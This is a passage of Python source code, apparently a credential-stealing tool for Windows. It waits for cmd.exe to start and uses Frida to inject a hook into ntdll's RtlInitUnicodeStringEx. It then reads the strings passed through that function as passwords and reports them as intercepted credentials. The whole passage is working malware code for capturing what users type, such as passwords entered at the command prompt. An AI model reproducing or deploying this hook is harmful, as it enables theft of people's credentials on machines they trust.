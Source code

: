 ```
          lockCmd.release()
          sleep(0.5)

    # if cmd is dead release the lock
    elif (not "cmd.exe" in (p.name() for p in psutil.process_iter())) and lockCmd.locked():
      lockCmd.release()
      print("[+] cmd is dead releasing lock")
    else:
      pass
    sleep(0.5)

def Cmd(Cmdpid):
  try:
    # attaching to the cmd window, this time with the right pid
    print("[+] Trying To Attach To cmd")
    session = frida.attach(Cmdpid)
    print("[+] Attached cmd with pid {}!".format(Cmdpid))
    script = session.create_script("""
      var username;
      var password;
      var CredUnPackAuthenticationBufferW = Module.findExportByName("Ntdll.dll", "RtlInitUnicodeStringEx")      
      Interceptor.attach(CredUnPackAuthenticationBufferW, {
        onEnter: function (args) 
        {
          password = args[1];
        },
        onLeave: function (result)
        {
          // Credentials are now decrypted
          var pass = password.readUtf16String();
      

          if (pass)
          {
            send("\\n+ Intercepted cmd Creds\\n" + ":" + pass);
          }
        }
      });
  
    """)
    script.on('message', on_message_cmd)
    script.load()
  except Exception as e:
    print(str(e))

if __name__ == "__main__":
  thread = Thread(target=WaitForCmd)
  thread.start()
```
